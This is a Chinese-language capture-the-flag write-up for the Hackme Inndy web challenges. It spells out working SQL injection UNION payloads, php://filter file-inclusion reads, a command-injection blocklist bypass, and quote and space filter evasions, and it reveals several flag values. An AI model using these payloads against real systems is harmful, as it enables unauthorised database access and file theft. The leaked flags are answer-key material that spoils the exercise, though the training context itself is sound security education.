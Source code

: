 [Hackme Inndy CTF](htts://hackme.inndy.tw)
===

參賽者：Will

## Web
### 0x01 hide and seek
#### https://hackme.inndy.tw/

看網站原始碼並尋找 `FLAG{` 

![](https://i.imgur.com/Vm6Xy2E.png)



### 0x02 guestbook
#### https://hackme.inndy.tw/gb/

**Payload 1:** 取得資料庫名 g8

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,database(),4#`

**Payload 2:** 得到資料庫表名 flag

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='g8' limit 0,1),4#`

**Payload 3:** 得到資料庫列名 flag

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='flag' limit 1,1),4#`

**Payload 4:** 拿到該題 `flag`

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select flag from flag limit 1,1),4#`



### 0x03 LFI
#### https://hackme.inndy.tw/lfi/?page=pages/index

**Payload 1:**

`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag`

base64 decode 後得到 flag.php

``` php
Can you read the flag<?php require('config.php'); ?>?
```

**Payload 2:**

`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config`

base64 decode 後得到 config.php

``` php
<?php

$flag = "FLAG{Yoooooo_LFI_g00d_2cXxsXSYP9EVLrIo}";
```



### 0x04 homepage
#### https://hackme.inndy.tw/

查看原始碼得知 [cute.js](https://hackme.inndy.tw/cute.js)

aaencode 解碼後得到 js 原始碼

在 Firefox Console 執行得到 QR Code 掃描後得到 flag

![](https://i.imgur.com/eHkN7wF.png)



### 0x05 ping
#### https://hackme.inndy.tw/ping/

有一串黑名單陣列, 發現 `sort` 沒防護到

``` php
$blacklist = [
            'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
            'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
            'passwd', 'shadow', 'root', 'z',
            'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
            'xargs', 'PATH',
            '$0', 'proc',
            '/', '&', '|', '>', '<', ';', '"', '\'', '\\', "\n"
        ];
```

**Payload:**

`sort fl????hp`





### 0x06 scoreboard
#### https://hackme.inndy.tw/scoreboard/

**Payload:** X-Flag 就是 flag

`curl -I https://hackme.inndy.tw/scoreboard/`



### 0x07 login as admin 0
#### https://hackme.inndy.tw/login0/

過濾可以知道 `'` 會被取代成 `\\'`, 因此 `\'` 可以濾過

``` javascript
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```

**Payload 1:** 得到 guest

``` 
username = \' || 1#
password = 1
```

**Payload 2:** 得到 admin & flag

``` 
username = \' || 1 limit 1,1#
password = 1
```



### 0x08 login as admin 0.1
#### https://hackme.inndy.tw/login0/
**Payload 1:** 2 會有反應

``` 
username = \' union select 1,2,3,4#
password = 1
```

**Payload 2:** 得到資料庫為 `login_as_admin0`

``` 
username = \' union select 1,database(),3,4#
password = 1
```

**Payload 3:** 得到資料庫表名 `h1dden_f14g`

```
username = \' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1),3,4#
password = 1
```

**Payload 4:** 得到資料庫列名 `the_f14g`

```
username = \' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=0x68316464656e5f66313467 limit 0,1),3,4#
password = 1
```

**Payload 4:** 得到 flag

```
username = \' union select 1,(select the_f14g from h1dden_f14g limit 0,1),3,4#
password = 1
```


### 0x09 login as admin 1
#### https://hackme.inndy.tw/login1/
這邊會把空白變成空值, 但可以使用 `/**/` 代替空白

再使用 0x07 的 Payload 達成攻擊

``` php
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, ' ') || strstr($strl, '1=1') || strstr($strl, "''") ||
        strstr($strl, 'union select') || strstr($strl, 'select ')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```

**Payload:** 
```
username = \'/**/||1/**/limit/**/1,1#
password = 1
```